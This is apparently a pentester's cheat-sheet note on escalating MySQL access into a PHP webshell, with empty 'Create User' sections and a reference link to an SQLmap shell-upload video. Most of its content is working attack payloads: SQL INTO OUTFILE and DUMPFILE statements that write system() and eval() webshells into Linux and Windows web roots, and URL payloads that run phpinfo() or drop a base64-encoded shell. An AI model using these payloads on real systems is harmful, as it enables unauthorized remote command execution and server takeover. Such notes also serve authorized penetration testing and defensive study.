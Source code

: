 # MySQL

## Create User

### Manual

```

```

### Metasploit

```

```

## 02 - Webshell

### 2.1 - Command Execution

```sql
SELECT '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';

SELECT '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE 'C:\\inetpub\\wwwroot\\phpmyadmin\\config\\shell.php';

SELECT '<HTML><BODY><FORM METHOD="GET" NAME="myform" ACTION=""><INPUT TYPE="text" NAME="cmd"><INPUT TYPE="submit" VALUE="Send"></FORM><pre><?php if($_GET["cmd"]) {​​system($_GET["cmd"]);}​​ ?> </pre></BODY></HTML>' INTO OUTFILE '/var/www/html/shell.php'
```

TODO: Test this method.

```sql
CREATE TABLE `<database_name>`.`user_input`(
`<column_name>` VARCHAR(1000) NOT NULL
) ENGINE = MYISAM;

INSERT INTO user_input values('<?php $cmd=$_GET["cmd"];system($cmd);?>')

SELECT * INTO DUMPFILE '/var/www/html/shell.php' FROM user_input;
```

### 2.2 - Evaluate PHP Code

```sql
SELECT '<?php eval($_GET[evaluate]); ?>' INTO OUTFILE '/var/www/html/eval_php.php'
```

Gather PHP Version

```
http[s]://<URL>//eval_php.php?evaluate=phpinfo();
```

Base64 encoded

```
http[s]://<URL>//eval_php.php?evaluate=if(file_put_contents('webshell.php', base64_decode(<base64_encoded>))){ echo 1;} else {echo 2;}
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Malware Development/Payload Execution/Webshell/PHP]]

### Macedonian Security Crew

- [Macedonian Security Crew: Uploading Shell via SQLmap into Database](https://www.youtube.com/watch?v=FjgKtBAiLKQ)